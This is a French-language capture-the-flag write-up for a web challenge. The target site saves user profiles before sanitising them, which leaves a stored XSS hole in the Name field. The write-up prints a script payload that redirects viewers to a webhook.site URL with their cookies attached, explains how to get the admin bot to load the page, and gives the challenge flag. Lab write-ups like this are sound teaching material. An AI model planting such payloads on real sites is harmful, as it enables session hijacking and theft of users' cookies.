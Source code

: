 # Internal blog

**Web**

You’ve received an anonymous tip from the Airship Mail Delivery Company claiming that a seemingly legitimate website is actually a front for trading stolen submarine mechanical parts. Yeah, that’s oddly specific...

The localhost port is 3000. Take a closer look and see if you can uncover anything suspicious. The flag to find is the bot's cookie.

---

## Préambule

En arrivant sur le site, bien que nous n'ayons pas de source; on peut avoir une partie du code source grâce à un leak.
![[S1.png]]

On peut voir dans cette source, tout en haut, que le profil est sauvegardé avant le check de sanitize.
Si le sanitize fail, le profil est donc quand même sauvegardé.

## Tests

On va donc se créer un profil en essayant de partout de faire des injections, voir ce qui passe.

![image](_attachements/Pasted_image_20250126214535.png)

Après la création de ce profil, qui va "échouer", on peut quand même aller à l'URL du profil pour le consulter, puisqu'il a été sauvegardé.

On voit sur cette URL que le champ Name n'est pas sanitized, on va donc pouvoir mettre une balise script à l'intérieur afin de récupérer les cookies des utilisateurs qui consultent ce profil.
![image](_attachements/Pasted_image_20250126214959.png)

On utilise https://webhook.site/ pour se créer un point de webhook pour pouvoir récupérer les cookies.

On créé le script suivant :
```html
<script>document.location = "https://webhook.site/2779f411-a895-496e-9525-803b72e50737/" + document.cookie</script>
```
...qu'on rentre dans le champ name

Il faut ensuite que l'admin vienne voir notre page. Pour cela, comme indiqué sur la page d'accueil, il nous suffit de créer un article.
![image](_attachements/Pasted_image_20250126215824.png)

Après avoir créé l'article, on voit dans notre webhook qu'on a reçu une requête
![image](_attachements/Pasted_image_20250126220031.png)

**Flag : HACKDAY{0rd3R_M4tteRs_In_Ur_C0d3!!!!}**

nhy.